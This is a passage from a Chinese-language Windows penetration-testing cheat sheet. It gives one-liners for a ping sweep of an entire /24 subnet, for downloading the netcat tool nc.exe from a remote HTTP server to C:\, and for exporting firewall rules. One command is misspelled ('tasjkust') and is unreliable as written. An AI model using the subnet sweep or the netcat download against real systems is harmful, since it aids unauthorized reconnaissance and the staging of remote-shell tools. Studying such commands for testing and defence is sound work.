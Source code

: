 5.显示每个进程对应的服务。

```
tasjkust /svc
```

三、PowerShell

1.用ping命令去扫描整个C段

```
1..255 | % {echo "192.168.253.$_"; ping -n 1 -w 100 192.168.253.$_} | Select-String ttl
```

补充个cmd的

```
for /L %i in (1,1,255) do @ping 192.168.253.%i -n 1 -w 100 | find /i "ttl"
```

2.从http服务器下载文件保存到本地

Win 7:   `(New-Object System.Net.Webclient).DownloadFile("http://10.10.10.10/nc.exe","c:\nc.exe")`

Win8 and later:  `wget "http://10.10.10.10/nc.exe"  -outfile "c:\nc.exe"`

3.查看Windows内置防火墙的规则，非常详细，各个程序入站出站的规则和端口等详细信息都有。

```
Get-NetFirewallRule -all | Out-GridView
```

`Get-NetFIrewallRule -all | Export-csv <filename.csv>`
将查询结果导出到一个csv文件中

